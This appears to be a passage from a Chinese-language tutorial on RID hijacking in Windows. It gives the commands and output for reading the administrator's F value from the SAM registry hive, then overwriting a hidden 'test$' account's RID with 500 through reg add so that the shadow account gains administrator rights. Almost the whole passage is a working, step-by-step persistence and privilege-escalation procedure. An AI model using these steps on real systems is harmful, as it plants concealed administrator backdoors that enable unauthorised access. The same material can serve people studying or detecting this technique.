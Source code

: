 命令行获取。

```plaintext
PS C:\Users\gbb> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4 /v F

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000001F4
F    REG_BINARY    0300010000000000000000000000000000000000000000000000000000000000FFFFFFFFFFFFFF7F0000000000000000F401000001020000110200000000000000000000010000000000000000000C00
```

有了管理员 SID 后，查询影子用户 test$ 的 RID 位置。

```plaintext
PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$ /z

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\Names\test$
    (默认)    REG_NONE (1004)

PS C:\Users\123> reg query HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC /z /v F

HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC
    F    REG_BINARY (3)    030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000EC03000001020000100000000000000000000000000000000000000000000000
```

直接把用户 test$ 的 RID 值 03 EC 替换成 01 F4 即可。这在数据中顺序是 F401，为了方便展示我做了换行输出。

```plaintext
030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000
F401
000001020000100000000000000000000000000000000000000000000000
```

命令行直接替换。

```plaintext
PS C:\Users\123> reg add HKEY_LOCAL_MACHINE\SAM\SAM\Domains\Account\Users\000003EC /v F /d 030001000000000000000000000000000000000000000000F0AE8EA6027DD90100000000000000000000000000000000F401000001020000100000000000000000000000000000000000000000000000 /t REG_BINARY /f
操作成功完成。
```

为了确认 RID 是否更改成功，先查询用户 test$ 的 SID，发现还是 1004。

```plaintext
C:\Users\123>wmic useraccount where (name='test$') get name,sid
Name   SID
test$  S-1-5-21-2973696153-3313763339-1684698060-1004
```

但是用 test$ 用户启动终端查询自己 RID，确实是 500，也有权限向系统盘写文件。

```plaintext
PS C:\Users\123> runas /user:test$ cmd
输入 test$ 的密码:
试图将 cmd 作为用户 "DESKTOP-AKRQV41\test$" 启动...
```
